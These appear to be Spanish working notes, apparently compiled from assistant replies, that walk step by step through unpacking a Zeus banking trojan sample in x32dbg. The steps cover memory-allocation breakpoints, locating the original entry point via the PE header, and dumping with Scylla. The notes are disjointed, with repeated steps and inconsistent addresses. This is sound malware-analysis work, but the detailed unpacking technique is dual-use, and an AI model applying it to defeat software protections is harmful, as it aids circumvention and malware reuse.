Estás mucho más cerca de lo que crees. En tu captura ya aparece exactamente lo que necesitas para “volver al stub”: en el panel inferior derecho (Stack/Call stack info) se ven varias líneas en rojo:

return to 00450000 from 67F6584E

Eso ES el retorno a tu código del EXE (zona 0x0045xxxx). Lo que pasa es que ahora mismo estás parado dentro de ntdll (EIP 7722F6CF), pero tienes el “camino de vuelta” visible.

Opción 1 (la más directa con lo que tienes en pantalla)

En el panel inferior derecho donde ves return to 00450000 ..., haz doble clic sobre esa línea roja.

x32dbg te llevará a 00450000 en el disassembly (código del módulo invoice_...exe).

En 00450000, pulsa F2 para poner un breakpoint.

Pulsa F9 para correr.

------


Estar parado en ntdll.ZwProtectVirtualMemory (77F05AE0) es justo el momento bueno para “enganchar” el salto al payload y sacar el OEP.

Ahora mismo tu siguiente paso no es seguir traceando ntdll, sino:

1) Extrae BaseAddress y Size reales desde los argumentos


[esp+8] = puntero a BaseAddress 

[esp+C] = puntero a RegionSize 

[esp+10] = NewProtect =  0x40 = ejecutable


[esp+10] = 00000040


✅ Conclusión: el stub está a punto de escribir/descifrar código en 0x00400000 (o cerca) y luego saltar al OEP.

---------------------------------------------------
✅ Haz esto:

Doble click en 0012F640 → te lleva al Dump → lee el DWORD que hay ahí: ese es Base (p.ej. 025C0000 o 00400000).

En x86, los argumentos de ZwProtectVirtualMemory van así (en el Stack):
- [ESP+4] = ProcessHandle
- [ESP+8] = PVOID BaseAddress (puntero a la dirección base)
- [ESP+C] = SIZE_T RegionSize (puntero al tamaño)
- [ESP+10] = NewProtect
- [ESP+14] = OldProtect (puntero)


Doble click en 0012F644 → lee el DWORD: ese es Size (p.ej. 00041000).



(Por consola, en x32dbg suele funcionar: ? poi(poi(esp+8)) para Base y ? poi(poi(esp+C)) para Size.)


-------------------------------------------------------
Poner el breakpoint que  da el OEP: Memory Execute BP
```
bpm <BASE>,<SIZE>,x
```


--------------


Ahora sí estás ejecutando código del propio malware: módulo invoice_...exe, EIP=00407122 dentro de .text. Eso ya no es el stub en ntdll/kernel32, sino la lógica principal.

- Pon un breakpoint en 00407122.

- Reinicia el programa y confirma que, tras toda la inicialización, siempre acabas aquí. Si es así, puedes tratarla como OEP práctico (o como wrapper inmediato al OEP).

Sí estás cerca de un punto útil (ya volviste a tu módulo invoice_...pdf.exe y saliste del “ruido” de ntdll/kernelbase), pero para afirmar “esto es OEP” necesitas comprobar estas señales:


**Cómo validar si una dirección es OEP:**
- ¿Dónde cae EIP en el Memory Map?
  - Si EIP cae en una región recién creada (p. ej. memoria privada) o una región cuyo protector cambió a RX justo antes, es una pista fuerte de OEP/unpack final.
  - Si sigue en la .text original del stub y el código sigue siendo “ofuscado/aritmético raro”, suele ser stub todavía.

- ¿El código “parece” código normal? En un OEP real sueles ver cosas como:
  - prólogo típico (push ebp / mov ebp, esp o equivalente),
  - referencias claras a imports (IAT) y cadenas,
  - llamadas a rutinas de init/CRT o lógica de aplicación,
  - menos “basura” de anti-debug/aritmética opaca.

- ¿Hay un salto/transferencia “limpia” al payload? El OEP suele ser el destino de un JMP/CALL final tras terminar de escribir/desencriptar y ajustar permisos.


--------------------------------


donde:
- En n el dump de abajo estás en 00400000 y en la barra de estado se ve 00400000 ... S3C #3C. Eso indica que en 0040003C está e_lfanew.
- Mira los 4 bytes en 0040003C (selección amarilla): por la anotación #3C y el valor, parecen ser F8 00 00 00, es decir e_lfanew = 0xF8.
- Ve en el dump a 00400000 + 0xF8 = 004000F8: allí verás 50 45 00 00 (“PE\0\0”).
- Desde ese PE, cuenta 0x28 bytes hacia delante: en 004000F8 + 0x28 = 00400120 tienes el DWORD AddressOfEntryPoint (RVA).
- Suma: OEP = ImageBase (0x00400000) + RVA(leído en 00400120).


-----------------------------

Basándome en la descripción de tu situación (estás en 00CE79C0 tras el retorno de la asignación de memoria), lo que estás viendo en tu pantalla es el momento exacto antes de que el malware empiece a "mudarse" a su nueva casa.

Estás en el paso de "Poner la trampa". Tienes que decirle al depurador: "Avísame solo cuando el programa intente ejecutar algo dentro de esta zona de memoria".

Haz exactamente esto en la ventana de Dump (abajo a la izquierda):

    Selecciona el primer byte: Haz clic en el primer par de ceros 00 de la esquina superior izquierda del panel de Dump (que corresponde a la dirección que estaba en EAX).

    Configura el Breakpoint:

        Clic derecho sobre ese byte.

        Selecciona Breakpoint > Hardware, on Execution (Hardware, en ejecución).

        Nota: Es vital que sea "Hardware" y "Execution". Si pones "Write", pararás miles de veces mientras se descifra. Si pones "Software", corromperás la memoria.


Repetimos: 
Reistros EAX..... Follow in dump ----- erás una zona de memoria llena de ceros (00 00 00...). No te asustes, esto es normal. El packer ha reservado el terreno, pero aún no ha construido la casa (no ha descifrado el código).

Selecciona el primer byte: Haz clic en el primer par de ceros 00 de la esquina superior izquierda del panel de Dump (que corresponde a la dirección que estaba en EAX).

Configura el Breakpoint:

    Clic derecho sobre ese byte.

    Selecciona Breakpoint > Hardware, on Execution (Hardware, en ejecución).


----------------------------------------------
***************************************************************************


No es el Packer: La dirección original del malware empezaba por 0040....

No es el Sistema: Las librerías de Windows suelen estar en 77... o 76....

Es Memoria Nueva: Una dirección como 0D... pertenece al rango de memoria dinámica (Heap) que el packer reservó anteriormente. Esto significa que estás viendo el código de ZeusBank desempaquetado y ejecutándose.


las las instrucciones justo encima son: 0DCE79BA call <kernelbase.VirtualAllocEx> - 0DCE79BF pop ebp - 0DCE79C0 Ret, voy bien? 

Sin embargo, no estás en el OEP todavía,

Presiona F7 (Step Into) o F8 (Step Over) una sola vez para ejecutar el RET.


ahora he ido a 00594917 mov adi, eax. Antes de esta instruccion están: 00594914 call dword ptr ds:[eax+14], voy bien? 

La dirección 0059xxxx: Estás ejecutando código en una región de memoria nueva (distinta del packer original 0040xxxx). Esto es el Zeus desempaquetado.

La instrucción call dword ptr ds:[eax+14]: Esto es típico de cómo el malware llama a sus funciones internas o APIs una vez que ha reconstruido su propia tabla de importaciones (IAT). Básicamente, EAX apunta a una lista de funciones y el malware está diciendo "Ejecuta la función número X de mi lista".

No estás en el OEP exacto (el byte número 1), sino unas líneas más adentro, pero eso NO importa para extraerlo. Ya tienes el código descifrado en memoria.


---------------------------------
Extraer el malware
********************************************************************

CÓMO SOLUCIONARLO (Paso a Paso Definitivo)

Olvídate de seguir paso a paso (F7/F8) porque te perderás en el bucle del packer. Vamos a usar la técnica de "La Trampa en el Mapa".

    Reinicia todo: Pulsa Ctrl+F2 para empezar de cero.

    Corre hasta VirtualAlloc:

        Pon un breakpoint (F2) en VirtualAlloc (como hiciste antes).

        Pulsa F9.

        Cuando pare, pulsa Ctrl+F9 (ejecutar hasta retornar).

        Mira el registro EAX (arriba a la derecha).

        Repite esto (F9 -> Ctrl+F9) un par de veces hasta que EAX te muestre una dirección nueva, parecida a 00590000 (puede cambiar ligeramente, ej: 00280000 o 00450000, pero NO será 0040... ni 77...).

    Pon la Trampa (Memory Map):

        Supongamos que EAX te dio 00590000.

        Ve a la pestaña Memory Map (Mapa de Memoria).

        Busca la fila que empieza por esa dirección (00590000).

        Haz Clic Derecho en esa fila -> Set Memory Breakpoint on Access -> Execution (o Access).

    El Salto Final:

        Vuelve a la pestaña CPU.

        Quita el breakpoint de VirtualAlloc (para que no moleste).

        Pulsa F9.

        El programa correrá solo y se congelará automáticamente cuando entre en la zona 0059xxxx.

    Dumpear (Ahora sí funcionará):

        Cuando se pare en 0059xxxx, abre Scylla.

        CORRIGE EL OEP: Borra lo que haya y pon la dirección donde estás parado (ej. 00594917 o la base 00590000).

        Dale a IAT Autosearch -> Get Imports. (Ahora sí debería salir bien).

        Dump PE y Fix Dump.

Resumen: Tu virus vive en la memoria dinámica (probablemente 0059xxxx). Tienes que poner un "Memory Breakpoint" allí para que el depurador pare solo cuando el virus despierte. ¡Inténtalo!

El OEP es correcto (356713F0):

En la caja de texto inferior (Log), dice en azul: IAT Search Nor: IAT VA 35671FFC ... Size 0x0070.

Traducción: Scylla ha encontrado la tabla de direcciones donde el malware guarda las funciones que necesita para robar datos.

-------------------------------------------------------------------


---------------------------------------------------

------

EMPEZAMOS DE CERO:
1) Cambio de permisos a ejecutable (los más importantes)

Estos son los que más directamente te llevan al OEP:

bpx kernel32.VirtualProtect
bpx ntdll.NtProtectVirtualMemory


Qué buscas cuando salten:

NewProtect / Protect sea PAGE_EXECUTE*:

0x10 / 0x20 / 0x40 / 0x80

y el lpAddress/BaseAddress apunte a una región “nueva” (normalmente fuera de .text original) o a un buffer donde estaban escribiendo antes.


2) Reserva de memoria donde van a desempaquetar

Para pillar el buffer donde se construye el payload:
- bpx ntdll.ZwAllocateVirtualMemory
- bpx kernel32.VirtualAlloc


------------------------------------------
1) Dale “Run/Continue” y observa qué BP se dispara primero

Haz Continue/Run. Cuando pare en un breakpoint, anota rápidamente:
- EIP (dónde paró)
- Call stack (quién lo llamó)
- Módulo / región (¿estás aún en el módulo principal o en memoria nueva?)

Luego Continue de nuevo. La idea es ver el orden típico:
- stub → resolver APIs → decrypt/unpack → popad final → jmp/call → payload


-------------------------------

# Otros Analisis interesantes de ZeusBank
- https://threatradar.vercel.app/malware-analysis-of-zeus-banking-trojan
- 